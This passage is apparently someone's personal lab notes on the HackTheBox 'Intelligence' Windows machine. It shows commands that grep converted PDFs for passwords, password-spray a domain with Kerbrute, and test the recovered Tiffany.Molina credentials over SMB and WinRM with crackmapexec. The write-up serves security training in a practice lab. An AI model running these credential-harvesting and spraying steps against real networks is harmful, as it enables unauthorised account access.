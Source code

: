 #### Trying to read the files / pdfs by converting them to text 

Script it oot
```
for i in $(ls); do pdftotext $i; done
```

All of the pdfs are also txt files now
![[HackTheBox/Windows/attachments/Pasted image 20250514232734.png]]

Cat the txt files and grep for passwords

```
cat *.txt | grep -i password
```

![[HackTheBox/Windows/attachments/Pasted image 20250514233540.png]]
- nice

Add -B5 and -A5 to get before and after 5 lines

```
cat *.txt | grep -i password -B5 -A5
```

![[HackTheBox/Windows/attachments/Pasted image 20250514233652.png]]
- got password: `NewIntelligenceCorpUser9876`
- no username though..but we have a users list 

#### Password spraying with Kerbrute 

```
./kerbrute passwordspray --dc 10.10.10.248 -d intelligence.htb users NewIntelligenceCorpUser9876
```

We got a match! Tiffany.Molina
![[HackTheBox/Windows/attachments/Pasted image 20250514234015.png]]

### See where creds are valid

#### Crackmapexec smb shares

```
crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```

![[HackTheBox/Windows/attachments/Pasted image 20250514234846.png]]
#### Crackmapexec winrm 

```
crackmapexec winrm 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 
```

![[HackTheBox/Windows/attachments/Pasted image 20250514234748.png]]
- nope
